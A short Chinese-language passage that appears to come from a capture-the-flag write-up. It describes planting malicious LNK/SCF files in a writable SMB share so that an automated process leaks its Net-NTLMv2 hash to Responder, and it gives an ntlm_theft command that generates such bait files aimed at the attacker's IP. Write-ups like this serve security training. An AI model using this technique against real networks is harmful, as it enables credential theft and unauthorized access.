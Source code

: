 是的。在SMB信息收集中，我们发现共享目录的文件名在不断变化，且我们有写入权限。这暗示了后台有自动程序在处理该目录的文件。

我们可以利用这个特性，创建一个恶意的LNK文件或SCF文件上传到该目录。当后台程序访问这个文件时，会触发并尝试连接我们指定的SMB服务器，从而通过 `Responder` 捕获到执行该程序的账户（`automate`）的Net-NTLMv2 hash。将捕获到的hash进行破解，即可获得该账户的密码，从而拿到 `user.txt`。这似乎是出题人预期的另一条路径。

可以使用的工具有 ntlm_theft [<sup>6</sup>](https://github.com/Greenwolf/ntlm_theft)。

```bash
# -s 指定Responder监听的IP, -f 指定要写入文件的SMB共享目录
ntlm_theft.py -g all -s <Your_IP> -f <FOLDER>
```
将生成的文件上传到 `onboarding` 目录，稍等片刻即可在 `Responder` 中收到hash。
